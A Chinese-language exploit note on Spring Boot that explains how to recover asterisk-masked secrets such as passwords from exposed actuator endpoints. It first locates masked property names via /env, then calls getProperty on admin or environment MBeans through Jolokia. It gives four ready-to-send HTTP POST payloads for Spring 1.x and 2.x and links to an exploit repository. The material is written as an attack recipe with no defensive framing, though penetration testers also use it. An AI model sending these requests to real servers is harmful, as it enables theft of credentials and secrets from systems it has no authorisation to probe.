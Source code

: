 Java SpringBoot 安全
<a name="dFI98"></a>
## 获取被星号(*) 脱敏的密码明文
访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果
<a name="MSojs"></a>
### 利用条件：

- 目标网站存在 /jolokia 或 /actuator/jolokia 接口
- 目标使用了 jolokia-core 依赖（版本要求暂未知）
<a name="WO2Yx"></a>
### 利用方法：
<a name="QmuiO"></a>
#### 步骤一：找到想要获取的属性名
GET 请求目标网站的 /env 或 /actuator/env 接口，搜索 ****** 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。
<a name="VqGRf"></a>
#### 步骤二：jolokia 调用相关 Mbean 获取明文
将下面示例中的 security.user.password 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 value 键中。

- 调用 org.springframework.boot Mbean

实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法<br />spring 1.x
```http
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
spring 2.x
```http
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

- 调用 org.springframework.cloud.context.environment Mbean

实际上是调用 `org.springframework.cloud.context.environment.EnvironmentManager` 类实例的 `getProperty` 方法<br />spring 1.x
```http
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
spring 2.x
```http
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

- 调用其他 Mbean

目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。
<a name="xlToW"></a>
## 更多漏洞
Github地址：[https://github.com/LandGrey/SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit)<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1624155335923-7bd88dc1-50c5-4225-8f97-9135ffd473be.webp#clientId=u91ab141a-268e-4&from=paste&id=u302e2b24&originHeight=2174&originWidth=1080&originalType=url&ratio=3&rotation=0&showTitle=false&status=done&style=shadow&taskId=uff8b1a02-1479-422e-a120-324a3b918f4&title=)<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1624155337172-23670ddc-0f9e-4297-b991-0d9f4c002e29.webp#clientId=u91ab141a-268e-4&from=paste&id=u4fa31373&originHeight=2174&originWidth=1080&originalType=url&ratio=3&rotation=0&showTitle=false&status=done&style=shadow&taskId=u56181766-178c-4066-80a7-e56b84df271&title=)<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1624155336045-a03834dc-b73f-44d7-a7a4-641622b17681.webp#clientId=u91ab141a-268e-4&from=paste&id=ub51beb6f&originHeight=2174&originWidth=1080&originalType=url&ratio=3&rotation=0&showTitle=false&status=done&style=shadow&taskId=u49d1bb77-e21f-4ae0-921a-4faf3bac129&title=)
